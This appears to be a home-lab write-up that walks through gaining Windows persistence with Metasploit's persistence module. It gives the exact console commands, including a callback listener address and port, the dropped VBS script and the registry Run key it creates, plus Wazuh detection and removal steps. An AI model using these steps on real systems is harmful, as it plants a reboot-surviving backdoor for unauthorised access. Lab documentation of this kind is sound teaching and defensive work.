

# 🔐 Persistence Attack — Maintaining Access

## 🎯 Objective

The goal of this phase is to maintain long-term access to the compromised system, even after reboot. This ensures that the attacker can regain access without re-executing the payload manually.

---

## 🧠 What is Persistence?

Persistence is a technique used by attackers to ensure continued access to a system. Even if the system restarts or the initial session is lost, the payload automatically reconnects to the attacker.

---

## 🛠️ Tools Used

| Tool | Purpose |
|------|---------|
| Metasploit Framework | Exploit delivery and session management |
| Meterpreter | Post-exploitation shell |
| Windows Registry | Persistence via `HKLM\...\Run` key |

---

## 🪜 Steps Performed

### 🔹 Step 1 — Background the Meterpreter Session

```bash
background
```

> Moves from the Meterpreter shell back to the Metasploit console while keeping the session alive.

---

### 🔹 Step 2 — Load the Persistence Module

```bash
use exploit/windows/local/persistence
```

---

### 🔹 Step 3 — Configure Options

```bash
set SESSION 1
set LHOST 192.168.1.100
set LPORT 4444
set STARTUP SYSTEM
```

---

### 🔹 Step 4 — Execute Persistence

```bash
run
```




---

## ⚙️ What Happened Internally

When the module ran, the following occurred on the target system:

1. A **malicious VBS script** was dropped onto the target:
```
   C:\Users\lakoy\AppData\Local\Temp\qoSegjr.vbs
```
2. A **registry autorun entry** was created at:
```
   HKLM\Software\Microsoft\Windows\CurrentVersion\Run\yQEqIDZVBkb
```

This ensures:
- The VBS script **executes automatically on every startup**
- The compromised system **calls back to the attacker** without manual intervention

---

## ⚠️ Key Observation — Troubleshooting

> **Initial persistence failed** because `STARTUP` was set to `USER` while the session was running as `SYSTEM`.

**Fix applied:**

```bash
set STARTUP SYSTEM
```

This aligned the startup context with the session privilege level, allowing the registry write to succeed.

---

## 🛡️ Detection Perspective (Wazuh)

Wazuh can detect persistence activity through:

- **Suspicious registry modifications** — monitored via Sysmon Event ID 13
- **Process execution logs** — Windows Event ID **4688**
- **Autorun behavior monitoring** — flagged as anomalous startup entries
  
---

## 🧹 Mitigation & Removal

### Remove the Persistence Registry Entry

```cmd
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run\yQEqIDZVBkb" /f
```

### Delete the Dropped Payload

```cmd
del C:\Users\lakoy\AppData\Local\Temp\qoSegjr.vbs
```

### Reset Compromised Credentials

```
Change passwords for any user accounts accessed during the session.
```

### Continue Active Monitoring

```
Keep Wazuh running and review alerts for further suspicious behavior.
```

---

## 🎯 Conclusion

This phase demonstrated how attackers establish **long-term, reboot-persistent access** to compromised systems using Windows registry autorun techniques. It also highlights the critical importance of:

- Monitoring registry write events
- Auditing autorun keys regularly
- Removing unauthorized startup entries promptly

---

*Part of the EDR + Attack Simulation Home Lab — MITRE ATT&CK Kill Chain Documentation*
